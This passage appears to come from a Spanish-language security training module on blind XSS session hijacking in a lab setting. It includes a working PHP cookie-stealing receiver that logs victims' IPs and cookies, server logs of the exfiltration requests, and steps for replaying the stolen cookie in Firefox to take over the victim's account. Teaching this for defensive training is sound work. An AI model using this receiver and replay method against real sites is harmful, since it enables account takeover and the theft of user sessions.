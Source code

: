 Podemos guardar el siguiente script PHP como

 `index.php` y volver a ejecutar el servidor PHP:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Ahora, esperamos a que la víctima visite la página vulnerable y vea nuestro payload de XSS. Una vez que lo hagan, recibiremos dos solicitudes en nuestro servidor, una para `script.js`, que a su vez hará otra solicitud con el valor de la cookie:

```bash
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

Como se mencionó anteriormente, obtenemos el valor de la cookie directamente en el terminal, como podemos ver. Sin embargo, dado que preparamos un script PHP, también obtenemos el archivo `cookies.txt` con un registro limpio de cookies:

```bash
cat cookies.txt 
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```

Finalmente, podemos usar esta cookie en la página `login.php` para acceder a la cuenta de la víctima. Para hacerlo, una vez que navegamos a `/hijacking/login.php`, podemos hacer clic en `Shift+F9` en Firefox para revelar la barra de `Storage` en las Herramientas de Desarrollador. Luego, podemos hacer clic en el botón `+` en la esquina superior derecha y agregar nuestra cookie, donde el `Name` es la parte antes de `=` y el `Value` es la parte después de `=` de nuestra cookie robada:

`http://SERVER_IP:PORT/hijacking/index.php`

![](https://academy.hackthebox.com/storage/modules/103/xss_blind_set_cookie_2.jpg)

Una vez que configuramos nuestra cookie, podemos actualizar la página y obtendremos acceso como la víctima:

`http://SERVER_IP:PORT/hijacking/login.php`

![](https://academy.hackthebox.com/storage/modules/103/xss_blind_hijacked_session.jpg)